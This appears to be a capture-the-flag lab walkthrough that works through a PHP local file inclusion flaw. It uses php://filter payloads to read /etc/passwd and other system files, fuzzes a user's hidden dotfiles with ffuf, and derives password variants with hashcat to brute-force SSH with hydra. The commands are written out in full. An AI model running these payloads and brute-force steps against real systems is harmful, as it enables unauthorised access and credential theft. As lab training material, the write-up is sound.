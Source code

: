 ![Screenshot 2025-05-10 at 2 51 13 pm](https://github.com/user-attachments/assets/13e4c40e-6945-4c3b-bcdf-f74f2fff1da0)

Now its known we can read files using the base64 encoding and the local file inclusion vulnerability. Let's try some common ones. by changing the directory and file at the end of the URL.

* ✅ `/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`
* ❌ `/index.php?page=php://filter/convert.base64-encode/resource=/etc/shadow`
* ✅ `/index.php?page=php://filter/convert.base64-encode/resource=/etc/hosts`

Getting somewhere now. We can see two obvious users besides root `red` and `blue`. Since we are blue we can try that one first.

Let's see what we can see any hidden files inside of the blue home directory using `FFUF`. The full command is `ffuf -w /usr/share/wordlists/seclists/Miscellaneous/EFF-Dice/large_words.txt -u 'http://10.10.250.114/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.FUZZ' -mc 200 -fs 0` . This command will use two flags `-mc` which filters for status code 200 and `-fs` which filters out any files with the size of 0. If you don't do this you will be hit with thousands of nothing packets to sort through. There is a small base64 string returned in the `.reminder` which we can decode file and an even bigger one with `.profile`. I had a look at the `.profile` and it seems to be a setup script. Basically, it sets up your environment by sourcing .bashrc and adding personal script folders to your path when you log in.

![Screenshot 2025-05-10 at 3 50 04 pm](https://github.com/user-attachments/assets/a6a3de98-ae42-4c53-8c1f-1e92f5ffdcdd)

## 🔐 Initial Access

When we decode the base64 string we get a password. The password on its own does not work to get into a shell using SSH but we can use it to make variations with hashcat then use hydra to bruteforce the password.

![Screenshot 2025-05-10 at 4 00 54 pm](https://github.com/user-attachments/assets/1e166216-78ab-4b01-bb27-d1675f19715d)

Let's start by making those variations. First things first make a file and add the secret password into it. Call it whatever you want. This could technically be classed as weaponization but its more of an initial access.

`echo 'sup3r_p@s$w0rd!' > base.txt`

then we make the variations...

`hashcat -a 0 -r /usr/share/hashcat/rules/rockyou-30000.rule -o variations.txt base.txt --stdout`

Hashcat uses one of its rules to make variations. I chose to use the rockyou3000 one.

Now that is done. The final thing to do it bruteforce the account using hydra.

`hydra -l blue -P variations.txt ssh://10.10.250.114`

We get output and a valid password.

![Screenshot 2025-05-10 at 4 15 36 pm](https://github.com/user-attachments/assets/5ca9975f-f28e-49dc-a360-29b87ae985fa)

After getting the password try it out in a fresh terminal shell `ssh blue@[Target IP]` and the password. Almost immedietley the taunts start coming in. We won't let that stop us.

![Screenshot 2025-05-10 at 4 27 49 pm](https://github.com/user-attachments/assets/ed204888-f948-4e3f-9fa7-f88dd48b6936)
